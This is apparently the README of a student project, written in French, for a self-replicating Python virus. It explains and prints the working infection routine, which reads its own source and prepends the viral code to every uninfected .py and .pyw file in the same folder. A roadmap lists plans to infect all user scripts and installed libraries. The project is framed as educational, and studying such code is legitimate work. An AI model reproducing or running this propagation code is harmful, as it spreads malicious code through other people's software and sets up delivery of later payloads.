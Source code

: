 ![Logo](https://upload.wikimedia.org/wikipedia/commons/thumb/f/f8/Python_logo_and_wordmark.svg/2560px-Python_logo_and_wordmark.svg.png)

**Python-virus** est un projet issu d'un cours d'1,5 jours. Il s'agit d'un virus s'auto répliquant pour assurer sa pérénité. 

> **Il s'agit d'un programme à portée éducative uniquement et ne doit être utilisé que comme tel sur du matériel appartenant à l'utilisateur.**

# Description du projet
> "*On n'est jamais qu'à 5 poignées de mains du Pape !*"

Le virus fonctionne en transportant et/ou exécutant une charge virale s'injectant dans tout autre fichier Python environnant qui n'a pas déjà été infecté. Ainsi, les fichiers nouvellement infectés exécuteront la charge virale tout en servant de rebond pour en infecter d'autres.

## Etat d'avancement du projet

- [x] Détermination de l'état d'inféction actuel d'un fichier
- [x] Propagation aux fichiers Python environnants pas encore infectés
- [ ] Mise en place du payload
- [ ] Mise en place d'un mode "infection uniquement" n'exécutant pas le payload
- [ ] Gestion des mises à jour du code malveillant
- [ ] Infection de l'intégralité des scripts Python de l'utilisateur
- [ ] Infection de l'intégralité des bibliothèques Python installées
- [ ] Infection des bibliothèques Python installées dans l'environnement virtuel d'exécution

## Dépendances du projet
Ce programme ne repose que sur des bibliothèques Python 3 de base. Il conviendra d'importer les bibliothèques nécessaires au bon fonctionnement du payload. 

# Utilisation
## Prérequis
### Préparation de l'environnement de travail
Il est fortement recommandé d'exécuter ce programme dans une machine virtuelle.

- Création d'un environnement virtuel: ```python -m venv env```

- Activation de cet environnement virtuel: ```./env/Scripts/activate```

## Exécution

Le programme s'exécute en saisissant ```python virus.py```.

Si l'exécution fonctionne, le payload s'exécute (amélioration à venir) et le virus se réplique sur les fichiers ```.py``` et ```.pyw``` environnants.

# Déconstruction du code

```python 
with open(sys.argv[0], 'r') as f:
    virusLines = f.readlines()
``` 
> Ouvre le fichier actuellement exécuté et imprime son contenu dans la variable ```virusLines```

```python 
isInfected = False
for eachLine in virusLines:
    if eachLine == "#start":
        isInfected = True
    if not isInfected:
        virusCode.append(eachLine)
    if eachLine == "#stop":
        break 
```
> Lit chaque ligne de la variable ```virusLines``` correspondant au fichier ouvert. Si la ligne actuelle est égale au délimiteur de début ```#start```, le code détermine que le fichier a déjà été infecté et ne fait plus rien jusqu'à atteindre la ligne contenant le délimiteur de fin  ```#stop```. Si le fichier ne contient pas ```#start``` il  n'est alors pas considéré comme infecté, et on ajoute à un tableau ```virusCode``` le contenu entre les délimiteurs.



```python
otherPythonFiles = glob.glob('*.py') + glob.glob('*.pyw')
isInfected = False
for eachFile in otherPythonFiles:
    with open(eachFile, 'r') as f:
        originalCode = f.readlines()
    isInfected = False
    for line in originalCode:
        if line == "#start\n":
            isInfected = True
            break
    if not isInfected:
        fullHackedCode = []
        fullHackedCode.extend(virusCode)
        fullHackedCode.extend('\n')
        fullHackedCode.extend(originalCode)
        with open(eachFile, 'w') as f:
            f.writelines(fullHackedCode)
```
> Pour chaque fichier Python environnant trouvé par le module ```glob```, on imprime son contenu dans la variable ```originalCode```, puis on cherche la présence du délimiteur de début en première ligne du fichier ouvert. Si on le trouve, on ne fait rien car le fichier est déjà infecté; sinon on remplace son  contenu par la variable ```fullHackedCode``` qui est un tableau contenant respectivement: le code du virus, un retour chariot, le code originel. Le fichier Python nouvellement infecté reste donc fonctionnel mais exécutera une charge virale ET se propagera à son tour aux fichiers Python environnants.

# Crédits
## Auteur

Par François B, étudiant à l'école IPSSI en première année de master Cybersécurité & cloud-computing

Merci à Christian A, enseignants chercheurs

## Licence

Ce programme a été créé dans un but purement éducatif et n'est soumis en tant que tel à aucune licence.
Les licences des bibliothèques et interprêteurs utilisés s'appliquent.


